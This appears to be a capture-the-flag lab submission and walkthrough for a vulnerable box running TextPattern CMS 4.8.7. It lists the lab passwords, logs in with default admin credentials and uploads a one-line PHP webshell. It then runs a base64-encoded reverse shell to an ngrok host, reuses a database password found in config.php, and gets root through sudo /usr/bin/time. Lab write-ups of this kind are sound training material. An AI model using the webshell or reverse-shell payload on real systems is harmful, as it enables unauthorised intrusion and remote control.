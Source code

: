 # Text

## Introduction

I made this box because I want to learn something new and add experience in the field of cybersecurity , To pwned the machine you just need a basic cve exploitation and basic research.

## Info for HTB

### Access

Passwords:

| User  | Password                            |
| ----- | ----------------------------------- |
| john  |       aDmin@12142csaJQA#            |
| root  |           1237443                   | 

### Key Processes

This machine uses the TextPattern CMS 4.87 vulnerability. The CMS is authenticated remote code execution, but for this machine, the default user pass is used so attackers can login easily and upload shell.


### Automation / Crons



- The tools CVE Exploit automatically upload a shell from admin page
- Attacker can login admin with default user pass and they can upload shell from there
- After i reviewed the cve source code i saw the code upload shell from `textpattern/index.php? event=file` and fill it with malicious code php then we can remotely access webserver
- It can run because the default upload files is `files` then attacker can upload shell and access it from `textpattern/files/shell.php` 



### Other

I used setup with a static ip i hope you modify it 



# Writeup


# Enumeration

First of all we enumeration with nmap to scan openport 
```
nmap -sC -sV -p- -T4 --min-rate=9326 --vv test.htb        
Starting Nmap 7.94SVN ( https://nmap.org ) at 
2024-01-30 02:44 EST
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 02:44
Completed NSE at 02:44, 0.00s elapsed
Initiating ARP Ping Scan at 02:44
Scanning test.htb (192.168.179.130) [1 port]
Completed ARP Ping Scan at 02:44, 0.12s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 02:44
Scanning test.htb (192.168.179.130) [65535 ports]
Discovered open port 80/tcp on 192.168.179.130
Discovered open port 22/tcp on 192.168.179.130
Completed SYN Stealth Scan at 02:44, 7.40s elapsed (65535 total ports)
Initiating Service scan at 02:44
Scanning 2 services on test.htb (192.168.179.130)
```

Have 2 port only are open so 22 is ssh and 80 is http . So let's we check the webserver

# Foothold

![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-15-46-41.png)

At 'http://test.htb', there was a link to login, and the website was also used Textpattern . After i clicked that link the website would redirect to `/textpattern` and there have a blog page so let's we research about textpattern exploit .


![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-15-51-39.png)

I found exploit-db and github page let's we review the source code exploit [TextPattern CMS 4.8.7](https://www.exploit-db.com/exploits/49996) here the source code .  There told you go to content section and click `Files` and upload your malicious php file . For access the webshell go to `textpattern/files/shell.php?cmd=ls` before that you need login as admin to access our page .

## Exploitation
To login to the textpattern page, you need to go to 'textpattern/textpattern' and there will be the login page. The website uses a default user pass, so you can login with this user pass, 'admin/admin', and it will redirect you to the admin dashboard so you can upload webshell and access it from the `/files` directory.


![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-16-10-06.png)

Click the content above and click `Files`. After that, upload your shell 


```
<?php system($_GET['cmd']);?>
```

Fill that source code and saved it as `shell.php` and upload that 

![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-16-09-24.png)

My webshell successfully uploaded to access the webshell we need go to `textpattern/files/test.php?cmd=ls`

![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-16-10-52.png)

Successfuly remote access so we just revshell to get user access . Let's we revshell to privilege escalation to got user 

```
echo%20%22c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTQ0MjYgMD4mMQ==%22%20|%20base64%20-d%20|%20bash
```

`c2ggLWkgPiYgL2Rldi90Y3AvMC50Y3AuYXAubmdyb2suaW8vMTQ0MjYgMD4mMQ==` this is my revshell payload you just change it to your ip port and change it to base64 . So my revshell now has been connected so let's we try find the password user

Let's say our try using password mysql to login user . Default file config file on `/textpattern/textpattern/config.php` .

```
$ cat config.php
<?php
$txpcfg['db'] = 'test';
$txpcfg['user'] = 'test';
$txpcfg['pass'] = 'aDmin@12142csaJQA#';
$txpcfg['host'] = 'localhost';
$txpcfg['table_prefix'] = '';
$txpcfg['txpath'] = '/var/www/html/textpattern/textpattern';
$txpcfg['dbcharset'] = 'utf8mb4';
// For more customization options, please consult config-dist.php file.
```

Here the password mysql now i'll try login user as john with the password . To know username u can running `cat /etc/passwd | grep /home`

![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-16-23-26.png)

The username is `john` so i'll try using the password and login as john

![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-16-25-00.png)

Successfully login as john so let's we login ssh as john and privilege to got root access

# Privilege Escalation

```
john@test:~$ sudo -l
Matching Defaults entries for john on test:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User john may run the following commands on test:
    (root) NOPASSWD: /usr/bin/time
```

john can run `/usr/bin/time` with root permision without password so let's we privilege esc . Let's we check on [GTFOBins](https://gtfobins.github.io/) and search time and i found binary time so we can get remote access with permission root

`sudo /usr/bin/time /bin/sh`

Run this command on your ssh and successfully rooted !!

![](https://0xwhoami35.github.io/writeup-htb/text/text/2024-01-30-16-30-51.png)
